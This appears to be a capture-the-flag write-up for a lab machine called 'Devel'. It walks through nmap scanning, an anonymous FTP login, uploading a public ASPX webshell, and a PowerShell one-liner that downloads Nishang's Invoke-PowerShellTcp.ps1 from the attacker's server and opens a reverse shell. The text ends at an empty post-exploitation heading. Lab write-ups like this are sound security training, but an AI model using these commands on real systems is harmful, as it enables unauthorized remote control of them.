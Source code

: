 <p align="center">
  <img width="300" src="https://user-images.githubusercontent.com/43796175/107217985-ff302900-69dc-11eb-999b-b1da568d1ff9.jpg" alt="DEVEL: Write Up">
</p>


# 01: Information Gathering

For starting, run nmap with a basic scan:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107400057-70e89f80-6acf-11eb-95f3-6870ccbbe0b0.jpg"></p>

Two open ports can be seen, 21 FTP and 80 HTTP. Now, run again nmap but this time with an more advanced scan against the ports found:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107400771-274c8480-6ad0-11eb-84f7-7b9a8b83b733.jpg"></p>

In this point, you can think about login in FTP with Anonymous credentials (port 21) and go more deep through HTTP and fuzzing (port 80).

# 02: Threat Modeling

Login in FTP with username and password "Anonymous" is possible:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107401864-4bf52c00-6ad1-11eb-9a7b-f795670ea890.jpg"></p>

Think if you can reach any files in the directory through which you had FTP access. For example, try to get through HTTP request the image "welcome.png":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107403079-b0fd5180-6ad2-11eb-80f8-092abfe6745e.jpg"></p>

Perfect, now you can try upload a webshell and visualize it in the browser:

# 03: Vulnerability Analysis

You can search the webshell necessary simply googling it. I found the next webshell which work fine:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413191-77324800-6ade-11eb-9dea-e66478f2d98e.jpg"></p>

<p align="center">https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx</p>

With FTP upload the webshell, using "put" command for this purpose:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413380-b1034e80-6ade-11eb-9557-089ca6cb717b.jpg"></p>

Try to see the webshell through browser, in http://10.10.10.5/cmdasp.aspx:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413825-34bd3b00-6adf-11eb-825d-a8d618e3ae18.jpg"></p>

You can see that is possible run commands efectly, then the more obviusly thought is get a reverse shell. For this, use Nishang that is a framework and collection of scripts and payloads which enables usage of PowerShell, in concret, you go to use the module of shells PS "Invoke-PowerShellTcp.ps1":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107414596-39362380-6ae0-11eb-84c9-9d326bf577c9.jpg"></p>

<p align="center">https://github.com/samratashok/nishang/tree/master/Shells</p>

# 04: Exploitation

Download the RAW file of this module:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107417782-f1190000-6ae3-11eb-8bb1-4e254b43e2b2.jpg"></p>

A good approach is execute the reverseShell in memory, like Nishang project describe:

"*Method 1. Use the in-memory dowload and execute: Use below command to execute a PowerShell script from a remote shell, meterpreter native shell, a web shell etc. and the function exported by it. All the scripts in Nishang export a function with same name in the current PowerShell session.*"

The next line is used for this:

```ps
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```

Change the value necessary with your VPN IP address and port:

```ps
powershell iex (New-Object Net.WebClient).DownloadString('http://<YourVpnIP>:1234/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <YourVpnIP> -Port 1337
```

Configure a python server in port 1234 and netcat listening in the port 1337:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107417029-2cff9580-6ae3-11eb-979b-a16af27eb2cc.jpg"></p>

Paste the code in the webShell and you recive the reverse connection:



# 05: Post-Exploitation

